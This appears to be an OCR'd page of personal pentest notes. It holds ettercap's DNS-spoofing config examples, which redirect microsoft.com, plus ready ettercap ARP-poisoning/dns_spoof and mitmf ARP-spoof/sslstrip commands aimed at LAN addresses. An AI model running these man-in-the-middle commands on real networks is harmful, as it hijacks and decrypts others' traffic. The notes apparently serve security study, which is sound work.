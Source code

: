  ... for a AAAA query (same hostname allowed):                            
   www.myhostname.com AAAA 2001:db8::1                                    
   *.foo.com          AAAA 2001:db8::2                                    
                                                                          
 or to skip a protocol family (useful with dual-stack):                   
   www.hotmail.com    AAAA ::                                             
   www.yahoo.com      A    0.0.0.0                                        
                                                                          
 or for PTR query:                                                        
   www.bar.com    PTR 10.0.0.10                                           
   www.google.com PTR ::1                                                 
                                                                          
 or for MX query (either IPv4 or IPv6):                                   
    domain.com MX xxx.xxx.xxx.xxx                                         
    domain2.com MX xxxx:xxxx:xxxx:xxxx:xxxx:xxxx:xxxx:xxxx                
    domain3.com MX xxxx:xxxx::y
    or for WINS query:                                                       
    workgroup WINS 127.0.0.1                                              
    PC*       WINS 127.0.0.1                                              
                                                                          
 or for SRV query (either IPv4 or IPv6):                                  
    service._tcp|_udp.domain SRV 192.168.1.10:port                        
    service._tcp|_udp.domain SRV [2001:db8::3]:port                       
                                                                          
 or for TXT query (value must be wrapped in double quotes):               
    google.com TXT "v=spf1 ip4:192.168.0.3/32 ~all"                       
                                                                          
 NOTE: the wildcarded hosts can't be used to poison the PTR requests      
       so if you want to reverse poison you have to specify a plain       
       host. (look at the www.microsoft.com example)                      
                                                                          
 microsoft sucks ;)
 redirect it to www.linux.org

microsoft.com      A   107.170.40.56
*.microsoft.com    A   107.170.40.56
www.microsoft.com  PTR 107.170.40.56       Wildcards in PTR are not allowed

Exemplo de comando:q

	ettercap -Tq -P dns_spoof -M arp:remote /10.12.24.1// /10.12.24.33//
	
# Netsed

Netsed is a tool for manipulating network traffic. (I don't think that this tool can be used for malicious purpose, but i am documenti this for some situation)

# mitmf

source:
https://www.javatpoint.com/bypassing-https

mitmf --arp --spoof --gateway 192.168.1.1 --target 192.168.1.254 -i eth0

mitmf already starts ssltrip without specifying any argument